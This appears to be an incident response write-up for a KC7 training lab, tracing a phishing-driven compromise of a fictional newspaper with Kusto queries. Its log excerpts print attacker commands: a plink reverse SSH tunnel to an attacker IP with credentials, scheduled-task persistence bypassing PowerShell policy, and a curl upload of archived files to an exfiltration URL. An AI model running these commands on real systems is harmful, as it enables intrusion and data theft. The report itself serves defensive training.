




---
# A Scandal in Valdoria: A Political Mystery


| Field | Entry |
| --- | --- |
| Incident ID | IR-2026-002 |
| Title | A Scandal in Valdoria: A Political Mystery |
| Lab | KC7 |
| Analyst | Manjima K |
| Date of analysis | 02-11-2026 |
| Severity | High. Compromised multiple accounts, Data exfiltration |
| Status | Open |
| Classification | TLP:CLEAR |
| Tools used | ADX/Kusto |

## 1. Executive Summary 
  
* **What happened:** A renowned newspaper, The Valdorian Times, published an unauthorized article accusing the leading political candidate of corruption. The publisher pointed me towards Ronnie McLovin, who was responsible for sending in the final draft. However, she denied ever sending the mail as she had fallen asleep. While investigating this, I came to know of a phishing campaign against the firm, which had successfully compromised 2 employees and downloaded malicious files onto their devices. This file dropped a malicious PowerShell script, this script then created a scheduled task, downloaded plink, and initiated a connection to an attacker-controlled IP. One of the employees compromised was Ronnie McLovin. The attacker gained hands-on keyboard access to her device through the plink tunnel, replaced the legitimate file with one downloaded from their webpage and mailed it to the publisher. This was the falsified story that was ultimately printed defaming the mayoral candidate. The attackers also exfiltrated data off of Ronnie's device and uploaded it to the dark web.
* **How I found it:** I found out about the phishing campaign from Sonia Gose, whose device was also compromised in the exact same fashion. Redirected the investigation to Ronnie's device to understand who had sent then mail on her stead. 
* **Impact:** High. Reputational damage to the firm. The attackers managed to compromise multiple devices and established connection with them through plink, even managing to gain hands-on keyboard access. Data was exfiltrated to an external webpage and posted on the dark web.
* **Next steps:** Known compromised devices be contained and malicious files and connections be removed. Attacker associated entities should be blocked. The phishing mails should be pulled from the systems and all employee devices should be checked.

## 2. Scope and Impact

| Item | Detail |
| --- | --- |
| Affected users | Sonia Gose, Ronnie McLovin |
| Affected hosts | UL0M-MACHINE, A37A-DESKTOP |
| Business impact | Confidentiality, Integrity |
| Data exfiltration confirmed? | Yes |

## 3. Detection and Initial Trigger

- **How was it detected?** An unauthorized article was published by the newspaper. I was called to investigate the alert and received the information regarding the phishing campaign from an employee. 
- **First suspicious event:** The intern Ronnie McLovin who had mailed the final draft to the publisher( Timestamp : 2024-01-31 11:11:12+00:00 ) refused this action, stating that she had fallen asleep and was not able to mail it. 
- **Initial triage decision:** I was suspicious of this being an insider attack; possibly Ronnie or someone using her device. But when the phishing mail angle came in, the possibility of Ronnie's device being compromised started to sound feasible. 

## 4. Timeline

| Time (UTC) | Source | Event |
| --- | --- | --- |
| 2024-01-05 09:42:05+00:00 | Email table | Phishing mail sent to Sonia Gose from 'newspaper_jobs@gmail[.]com' |
| 2024-01-05 10:23:17+00:00 | OutboundNetworkEvents | Sonia clicked on the link provided in the mail |
| 2024-01-05 10:24:04+00:00 | FileCreationEvents table | 'Valdorian_Times_Editorial_Offer_Letter.docx' File downloaded on the host 'UL0M-MACHINE' |
| 2024-01-05 10:24:32+00:00 | FileCreationEvents table | A script file 'hacktivist_manifesto.ps1' written to disk |
| 2024-01-05 10:24:32+00:00 - 2024-01-05 11:55:22+00:00 | ProcessEvents table | 3 processes related to the file "hacktivist_manifesto.ps1" ran on the host including a scheduled task creation |
| 2024-01-06 02:39:35+00:00 | ProcessEvents table | plink.exe executed on the host with the IP 136[.]130[.]190[.]181 |
| 2024-01-06 07:30:44+00:00 - 2024-01-06 09:17:51+00:00 | ProcessEvents table | 5 device discovery commands ran on the host |
| 2024-01-10 08:48:16+00:00 | Email table | Phishing mail sent to Ronnie McLovin from 'valdorias_best_recruiter@gmail[.]com' |
| 2024-01-10 08:55:07+00:00 | OutboundNetworkEvents | Ronnie clicked on the link provided in the mail |
| 2024-01-10 08:55:17+00:00 | FileCreationEvents table | 'Editorial_J0b_Openings_2024.docx' File downloaded on the host 'A37A-DESKTOP' |
| 2024-01-10 08:55:51+00:00 | FileCreationEvents table | A script file 'hacktivist_manifesto.ps1' written to disk |
| 2024-01-10 08:55:51+00:00 - 2024-01-10 11:13:21+00:00 | ProcessEvents table | 3 processes related to the file "hacktivist_manifesto.ps1" ran on the host including a scheduled task creation |
| 2024-01-11 03:08:12+00:00 | ProcessEvents table | plink.exe executed on the host with the IP 168[.]57[.]191[.]100 |
| 2024-01-10 09:31:24+00:00 - 2024-01-10 10:46:10+00:00 | ProcessEvents table | 5 device discovery commands ran on the host |
| 2024-01-31 09:47:51+00:00 | OutboundNetworkEvents | A file 'fakestory.docx' was downloaded onto the host 'A37A-DESKTOP' from url 'hxxps://hire-recruit[.]org/files/fakescandal/2024/fakestory.docx' |
| 2024-01-31 10:26:20+00:00 | ProcessEvents table | The attacker moved the file to 'C:\\Users\\romclovin\\Documents\\OpEdFinal_to_print.docx' using commandline |
| 2024-01-31 11:11:12+00:00 | Email table | Final draft of the article mailed to the publisher. |
| 2024-01-31 11:44:58+00:00 - 2024-01-31 11:49:47+00:00 | ProcessEvents table | Data from host 'A37A-DESKTOP' compressed using 7zip |
| 2024-02-01 02:14:32+00:00 | ProcessEvents table | Attacker used curl to exfiltrate data to the url 'hxxps://hirejob[.]com/exfil_processor/upload.php' |
| 2024-02-01 | - | An unapproved article that made defamatory statements about a mayoral candidate published. |


## 5. Technical Analysis

- ###**Initial access** Emails were sent from 'newspaper_jobs@gmail[.]com' and 'valdorias_best_recruiter@gmail[.]com' containing links that both users clicked. This was observed on querying the 'Email' table. Pivoting over to the 'OutboundNetworkEvents' table, I checked the links against their IPs. Reference to their job roles solidified the spearphishing assessment with high confidence. 

Query: 
```kusto
Email
| where subject contains "apply"
| where recipient contains "sonia_gose@valdoriantimes.news"
```
Result:
```json
{
  "timestamp": "2024-01-05 09:42:05+00:00",
  "sender": "newspaper_jobs@gmail.com",
  "reply_to": "newspaper_jobs@gmail.com",
  "recipient": "sonia_gose@valdoriantimes.news",
  "subject": "[EXTERNAL] FW: Invitation to Apply: Lead Political Correspondent",
  "verdict": "CLEAN",
  "link": "https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx"
}
```

-  ###**Execution** Upon clicking, a file was downloaded onto the system. It dropped the script 'hacktivist_manifesto.ps1', which executed 3 related commands. Identical actions across the compromised hosts shows that the attacks are related with high confidence. 

Query:
```kusto
ProcessEvents
| where hostname contains "A37A-DESKTOP"
| where process_commandline contains "hacktivist_manifesto.ps1"
```
Result:
   

-  ###**Persistence** A scheduled task, set to run every 5 hours with -ExecutionPolicy Bypass, was created among the commands executed. Attempt to keep access after reboots. Confidence: high. 

Query:
```kusto
ProcessEvents
| where hostname contains "A37A-DESKTOP"
| where process_commandline contains "hacktivist_manifesto.ps1"
```
Result:
```json
{
  "timestamp": "2024-01-10 10:26:32+00:00",
  "parent_process_name": "cmd.exe",
  "parent_process_hash": "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f",
  "process_commandline": "schtasks /create /sc hourly /mo 5 /tn \"Hacktivist Manifesto\" /tr \"powershell.exe -ExecutionPolicy Bypass -File C:\\ProgramData\\hacktivist_manifesto.ps1\"",
  "process_name": "schtasks.exe",
  "process_hash": "6261ac0b3243e500a91444ffdca7a434bda847c82c54c27cee887e7713687883",
  "hostname": "A37A-DESKTOP",
  "username": "romclovin"
}
```

-  ###**Command and control** Execution of 'plink.exe' against the IPs '136[.]130[.]190[.]181', '168[.]57[.]191[.]100', creating an SSH tunnel to execute commands remotely. Same credentials used for setup. Confidence: high. 

Query:
```kusto
ProcessEvents
| where hostname in ("A37A-DESKTOP","UL0M-MACHINE") 
| where process_commandline contains "plink"
```
Result:
```json
{
  "timestamp": "2024-01-11 03:08:12+00:00",
  "parent_process_name": "cmd.exe",
  "parent_process_hash": "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f",
  "process_commandline": "plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100",
  "process_name": "cmd.exe",
  "process_hash": "68c24146c391b8c62cd9309d2898c3ee7c86ee6a3171b35c76cab3dc4b68afe6",
  "hostname": "A37A-DESKTOP",
  "username": "romclovin"
}
```

-  ###**Discovery** 5 discovery commands ran on the host right after remote connection was established. This points to reconnaissance and not normal user behavior, ruling out IT support. Confidence: High. 

Query:
```kusto
ProcessEvents
| where hostname contains "UL0M-MACHINE"
| where timestamp between (datetime(2024-01-06 02:39:35+00:00) .. datetime(2024-01-06 10:00:00+00:00) )
```
Result:
   
   

-  ###**Impact** Allegedly, the attacker gained hands-on keyboard access to the host. They downloaded the unauthorized article onto the system, moving it to a legitimate location and renaming it 'OpEdFinal_to_print.docx'. This copy was then mailed to the publisher. 

Query:
```kusto
OutboundNetworkEvents
| where src_ip contains "10.10.0.19"
| where url contains "fake"
```
Result:
```json
{
  "timestamp": "2024-01-31 09:47:51+00:00",
  "method": "GET",
  "src_ip": "10.10.0.19",
  "user_agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36",
  "url": "https://hire-recruit.org/files/fakescandal/2024/fakestory.docx"
}
```

Query:
```kusto
ProcessEvents
| where hostname in ("A37A-DESKTOP") 
| where process_commandline contains "fake"
```
Result:
```json
{
  "timestamp": "2024-01-31 10:26:20+00:00",
  "parent_process_name": "cmd.exe",
  "parent_process_hash": "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f",
  "process_commandline": "move C:\\Users\\romclovin\\Downloads\\fakestory.docx C:\\Users\\romclovin\\Documents\\OpEdFinal_to_print.docx",
  "process_name": "cmd.exe",
  "process_hash": "24713a1129b719e9af97f7eeab6fb7f9e4aa94f162493a8b4e069df1f03a66da",
  "hostname": "A37A-DESKTOP",
  "username": "romclovin"
}
```

-  ###**Exfiltration** 3 folders from the host 'A37A-DESKTOP' were compressed and sent over to the url 'hxxps://hirejob[.]com/exfil_processor/upload[.]php'. It was implied that the data was uploaded onto dark web. 

Query:
```kusto
ProcessEvents
| where timestamp between (datetime(2024-01-31 11:30:00) .. datetime(2024-01-31 12:00:00))
| where hostname == "A37A-DESKTOP"
| order by timestamp asc
```
Result:
 

Query:
```kusto
ProcessEvents
| where process_commandline contains "7z"
| where hostname contains "A37A-DESKTOP"
| where process_commandline contains "hirejob.com"
```
Result:
```json

  "timestamp": "2024-02-01 02:14:32+00:00",
  "parent_process_name": "cmd.exe",
  "parent_process_hash": "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f",
  "process_commandline": "curl -F \"file=@C:\\Users\\romclovin\\Documents\\*.7z\" https://hirejob.com/exfil_processor/upload.php",
  "process_name": "cmd.exe",
  "process_hash": "8b49eaf11c8332d422db83717360da2bad21fc78d6dd1dd9e1f5a6188fb391a9",
  "hostname": "A37A-DESKTOP",
  "username": "romclovin"
}
```


## 6. Indicators of Compromise 

In the order that they were encountered. 

| Type | Value | Context | Verdict source |
| --- | --- | --- | --- |
| Email | newspaper_jobs@gmail[.]com | Phishing mail | KC7 Internal logs |
| URL | hxxps://promotionrecruit[.]com/published/Valdorian_Times_Editorial_Offer_Letter.docx | Phishing link | KC7 Internal logs |
| Domain | promotionrecruit[.]com | Phishing domain | KC7 Internal logs |
| SHA256 | 60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f | Valdorian_Times_Editorial_Offer_Letter.docx | KC7 Internal logs |
| SHA256 | 1c3ef0407d5714037504c52f7abfa86c081fd7a021b52e2abe8a669f92413252 | hacktivist_manifesto.ps1 | KC7 Internal logs |
| Command line | schtasks /create /sc hourly /mo 5 /tn \"Hacktivist Manifesto\" /tr \"powershell.exe -ExecutionPolicy Bypass -File C:\\ProgramData\\hacktivist_manifesto.ps1\ " | Scheduled task creation, Persistence | KC7 Internal logs |
| Command line | plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw ********** 168[.]57[.]191[.]100 | Tunnel setup | KC7 Internal logs |
| IP | 136[.]130[.]190[.]181 | C2 server. Destination of the plink SSH tunnel from UL0M-MACHINE | KC7 Internal logs |
| Email | valdorias_best_recruiter@gmail[.]com | Phishing mail | KC7 Internal logs |
| URL | hxxps://promotionrecruit[.]org/share/Editorial_J0b_Openings_2024.docx | Phishing link | KC7 Internal logs |
| Domain | promotionrecruit[.]org | Phishing domain | KC7 Internal logs |
| SHA256 | fa092856280dbddbc08d48ca996ac58eda22f1db978960c9c92ad0bd13ee197e | Editorial_J0b_Openings_2024.docx | KC7 Internal logs | 
| IP | 168[.]57[.]191[.]100 | C2 server. Destination of the plink SSH tunnel from A37A-DESKTOP | KC7 Internal logs |
| URL | hxxps://hire-recruit[.]org/files/fakescandal/2024/fakestory.docx | Fake article download link | KC7 Internal logs |
| Domain | hire-recruit[.]org | Fake article download | KC7 Internal logs |
| SHA256 | 5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f | fakestory.docx file | KC7 Internal logs |
| Command line | move C:\\Users\\romclovin\\Downloads\\fakestory.docx C:\\Users\\romclovin\\Documents\\OpEdFinal_to_print.docx | Replaced legitimate file with an unauthorized one | KC7 Internal logs |
| Command line | 7z.exe a -t7z C:\\Users\\romclovin\\Documents\\MyStolenDataFromDocuments.7z C:\\Users\\romclovin\\Documents\\*.docx -p thruthW!llS3tUfree, 7z.exe a -t7z C:\\Users\\romclovin\\Documents\\MyStolenDataFromDesktop.7z C:\\Users\\romclovin\\Desktop\\*.docx -p thruthW!llS3tUfree, 7z.exe a -t7z C:\\Users\\romclovin\\Documents\\DankMemes.7z C:\\Users\\romclovin\\Memes\\*.jpg -p thruthW!llS3tUfree, curl -F \"file=@C:\\Users\\romclovin\\Documents\\*.7z\ " hxxps://hirejob[.]om/exfil_processor/upload.php | Staging and exfiltration | KC7 Internal logs |

## 7. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
| --- | --- | --- | --- |
| Initial Access | Phishing: Spearphishing Attachment | T1566.002 | Email table |
| Execution | PowerShell | T1059.001 | ProcessEvents table |
| Persistence | Scheduled Task | T1053.005 | ProcessEvents table |
| Command and Control | Protocol Tunneling | T1572 | ProcessEvents table |
| Impact | Data Manipulation: Stored Data Manipulation | T1565.001 | ProcessEvents table |
| Exfiltration | Exfiltration Over Alternative Protocol: Exfiltration Over Asymmetric Encrypted Non-C2 Protocol | T1048.002	| ProcessEvents table |

## 8. Response Actions

| Phase | Action taken or recommended |
| --- | --- |
| Preparation | All activities like email, network, process and file were precisely logged, which helped in reconstructing attack timeline |
| Identification | Received a report from employee Sonia Gose, followed the trail to find an active phishing campaign against |
| Containment | Isolate hosts, reset accounts, block the IPs, domains and sender addresses at the firewall, proxy and mail gateway |
| Eradication | Delete the scripts and plink, remove the scheduled tasks, remove the phishing emails org-wide, reset credentials and sessions |
| Recovery | Restore systems, monitor the systems for reappearance, notify the audience and have the issue rectified |
| Lessons learned | See section 9 |

## 9. Root Cause and Lessons Learned

- **Root cause:** A phishing email from an external source was delivered to employees. When the link was clicked, a malicious document was downloaded, which dropped and ran a PowerShell script. There were no restrictions on script execution or on outbound SSH tunneling from workstations.
- **What worked well:** Comprehensive telemetry made reconstruction easy. A report from an employee pivoted the investigation to the right path. 
- **What could be improved:** The first phishing incident occurred on 2024-01-05, and wasn't reported till the unauthorised article was printed. A single opened link was able to execute scripts, create tunnels and manipulate content for publishing. Lack of egress control. 

## 10. Recommendations

| Priority | Recommendation | Type |
| --- | --- | --- |
| High | Malicious files and connections be removed | Corrective |
| High | Block related IPs and domains | Preventive |
| High | Contain any other host that has been compromised | Corrective |
| High | Phishing mails should be pulled from the rest of the systems and IOCs blocked | Preventive |
| High | Implement egress filtering | Preventive | 
| Medium | Add detection rule for plink.exe execution and tunneling | Detective |
| Low | Run phishing awareness training | Administrative |


---



